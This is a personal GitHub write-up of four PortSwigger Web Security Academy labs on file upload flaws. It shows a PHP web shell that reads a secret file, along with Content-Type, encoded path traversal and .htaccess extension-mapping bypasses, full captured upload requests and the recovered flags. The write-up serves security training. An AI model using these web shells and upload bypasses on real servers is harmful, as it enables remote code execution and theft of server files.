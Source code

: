# File upload vulnerabilities


---

<details>
  <summary>Lab: Remote code execution via web shell upload</summary>

> ###  To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file ``/home/carlos/secret``. Submit this secret using the button provided in the lab banner.

> You can log in to your own account using the following credentials: ``wiener:peter``


---

1. login as ``wiener``
2. make newfile ``exploit.php``

``content`` of it:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

3. on my profile try to upload this file instead of photo

<img width="1140" height="282" alt="image" src="https://github.com/user-attachments/assets/27a7e7ba-24e8-44f4-9cfa-f8f0237436a9" />

<img width="1541" height="690" alt="image" src="https://github.com/user-attachments/assets/d63874c1-6f17-4726-8cf3-2c43c93797cb" />

4. it successfully uploaded
5. now want to run this file we know form the request it saved in ``/files/avatars/exploit.php``

```url
https://0a6300e9038f3f07800e218600ea00a0.web-security-academy.net/files/avatars/exploit.php
```
```
mPcV5fg8QF3QG5vvRAjs2BIz4bVAcRra
```

<img width="1541" height="690" alt="image" src="https://github.com/user-attachments/assets/634cd97e-e1b8-4194-816f-b98dd585f83c" />

  
</details>











<details>
  <summary>Lab: Web shell upload via Content-Type restriction bypass</summary>

> ###  To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file ``/home/carlos/secret``. Submit this secret using the button provided in the lab banner.

> You can log in to your own account using the following credentials: ``wiener:peter`` 

---

1. login as ``wiener``
2. try to upload the ``exploit.php`` file from the previous lab

<img width="1232" height="149" alt="image" src="https://github.com/user-attachments/assets/27c9ab4e-a4aa-45ea-bcbd-ca7e4a56f62b" />

```http
POST /my-account/avatar HTTP/1.1
Host: 0a5900f8048b466280958aeb001f0009.web-security-academy.net
Cookie: session=JQCpU8NyZ2a2NOLfc3h8MgTUU08KE6Qp
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------165255631921329333142258700441
Content-Length: 546
Origin: https://0a5900f8048b466280958aeb001f0009.web-security-academy.net
Referer: https://0a5900f8048b466280958aeb001f0009.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive


-----------------------------165255631921329333142258700441
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php


<?php echo file_get_contents('/home/carlos/secret'); ?>

-----------------------------165255631921329333142258700441
Content-Disposition: form-data; name="user"


wiener
-----------------------------165255631921329333142258700441
Content-Disposition: form-data; name="csrf"


SroXqhkioX5U46fb2pTZihfwA21q9io7
-----------------------------165255631921329333142258700441--


```

3. change ``Content-Type: application/x-php`` to

```http
Content-Type: image/jpeg
```

boom , it's uploaded successfully 

<img width="1402" height="677" alt="image" src="https://github.com/user-attachments/assets/85ce0cdc-84f1-47e7-8c51-aa44a7199c45" />

4. now run the ``exploit.php``

```
https://0a5900f8048b466280958aeb001f0009.web-security-academy.net/files/avatars/exploit.php
```

<img width="1107" height="188" alt="image" src="https://github.com/user-attachments/assets/f3f6f85d-7630-4d7d-860c-5c494be25cba" />

```
D7rWxnQnptgyIvGxDMbks5trX0Z2bT3w
```



  
</details>








<details>
  <summary>Lab: Web shell upload via path traversal</summary>


> ### This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a secondary vulnerability. ``path traversal``

> ###  To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file ``/home/carlos/secret``. Submit this secret using the button provided in the lab banner.

> You can log in to your own account using the following credentials: ``wiener:peter`` 


---

1. login as ``wiener``
2. upload ``exploit.php`` file that we used in previous labs

<img width="979" height="170" alt="image" src="https://github.com/user-attachments/assets/b20ec59d-650a-4be2-843a-0f1ac37c31f2" />

it's uploaded successfully !!!

3. now try to run it 

```
https://0a78004503363a658cb1f98b00190005.web-security-academy.net/files/avatars/exploit.php
```

no thing happend !!!!

<img width="1034" height="380" alt="image" src="https://github.com/user-attachments/assets/53ce3704-b2f2-4b56-aba1-ce42a718c25f" />



this mean it not allow files in this directory to excuted ``/avatars``

so if we put the file on ``/files`` by using ``path traversal`` it will run

4. now try to upload ``exploit.php`` again and intercpt the request

```http
POST /my-account/avatar HTTP/2
Host: 0a78004503363a658cb1f98b00190005.web-security-academy.net
Cookie: session=9q473x8Ya7X7vZoCqHNFpEhPDiMhsdur
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------423410706123145428642617479270
Content-Length: 546
Origin: https://0a78004503363a658cb1f98b00190005.web-security-academy.net
Referer: https://0a78004503363a658cb1f98b00190005.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers


-----------------------------423410706123145428642617479270
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php


<?php echo file_get_contents('/home/carlos/secret'); ?>

-----------------------------423410706123145428642617479270
Content-Disposition: form-data; name="user"


wiener
-----------------------------423410706123145428642617479270
Content-Disposition: form-data; name="csrf"


BvzgCzBq7ovrFY8tBRq8TrYlQF11tuIl
-----------------------------423410706123145428642617479270--


```

5. now change filename in ``Content-Disposition: form-data; name="avatar"; filename="exploit.php"`` to ``..%2fexploit.php`` we use ``..%2f`` to bypass the filter instead of ``../``

```
Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php"
```

it's uploaded successfully this proof on ``path traversal``

<img width="1225" height="620" alt="image" src="https://github.com/user-attachments/assets/d74ed916-00fe-42c9-8edd-43c31ae05864" />


6. now run it form ``/files/exploit.php`` not ``/files/avatars/exploit.php``


```
https://0a78004503363a658cb1f98b00190005.web-security-academy.net/files/exploit.php
```


<img width="947" height="229" alt="image" src="https://github.com/user-attachments/assets/8527190e-e0e2-4937-a273-75f403014d34" />


```
MDkBY5byb22IlmP48nQqlbwOjszk9a0z
```

  
</details>










<details>
  <summary>Lab: Web shell upload via extension blacklist bypass</summary>



> You can log in to your own account using the following credentials: ``wiener:peter`` 



---

> ## in this lab server don't allow to upload ``.php`` files
> ### this lab use ``Apache`` server ``+`` ``mod_php`` this php module allow apache to excute ``php`` files Directly
> in apache there is feature call ``per-directory configuration`` that is mean you can add file with instructures inside any directory in server this file call ``.htaccess`` this file change the way that server deal with files in this directory only

1. login as ``wiener``
2. create new file call ``file.txt`` contain

```
AddType application/x-httpd-php .l33t
```

> this content tell ``apache`` that any file with ``.l33t`` extension deal with it as ``php`` file and excute it

when send it change ``filename`` to ``.htaccess``

```http
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
```

<img width="1224" height="580" alt="image" src="https://github.com/user-attachments/assets/7364949a-a9a0-4f1c-8382-973b6caab83b" />

> #### now if i upload ``php`` file with ``l33t`` extension it will uploaded

3. make file ``exploit.l33t``

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

<img width="1250" height="616" alt="image" src="https://github.com/user-attachments/assets/a2d662ab-4237-45e1-8632-0574a0007aaf" />

it uploaded successfully 

4. now run this file

```
https://0ac900c804effd6783b30a9a00b1002b.web-security-academy.net/files/avatars/exploit.l33t
```

<img width="997" height="233" alt="image" src="https://github.com/user-attachments/assets/e3297f2c-fd02-414d-8129-54b83d6e3308" />


```
a70CUTgIcfSJ8OgubEYNg29zljZYF2NV
```
  
</details>






























